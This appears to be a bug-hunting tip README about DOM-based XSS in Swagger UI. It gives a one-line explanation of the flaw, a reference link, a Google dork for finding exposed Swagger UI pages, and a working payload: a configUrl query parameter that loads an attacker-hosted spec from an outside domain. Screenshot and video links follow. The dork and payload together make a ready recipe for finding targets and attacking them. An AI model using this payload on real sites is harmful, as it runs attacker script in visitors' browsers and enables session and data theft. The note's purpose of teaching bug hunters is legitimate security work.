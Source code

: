 # 🚀 DOM based XSS on Swagger UI 

What is DOM-based XSS? In short DOM-Based These attacks typically occur when JavaScript takes input from a URL or other DOM element without validation, allowing the attacker to insert and execute malicious code in the victim's web page. # ⚡ Reference https://github.com/seanmarpo/webjars-swagger-xss


# ⚡ References
https://github.com/seanmarpo/webjars-swagger-xss


# 🔎 Dork
```
intitle:"Swagger UI" site:.
```


# 👨‍💻 Payload

```
?configUrl=https://xss.smarpo.com/test.json
```

# 🖼️ Screenshots 

<img src="https://raw.githubusercontent.com/randixploit/Bug-Hunting-Tips/refs/heads/main/Indonesia/Cross%20Site%20Scripting/DOM-based%20XSS%20pada%20Swagger%20UI/kmc_20250216_010023.png">


# 🎥 Video

[![Watch on YouTube](https://img.youtube.com/vi/dP2SHlghC0E/0.jpg)](https://youtu.be/dP2SHlghC0E)


Hope it's easy to understand 
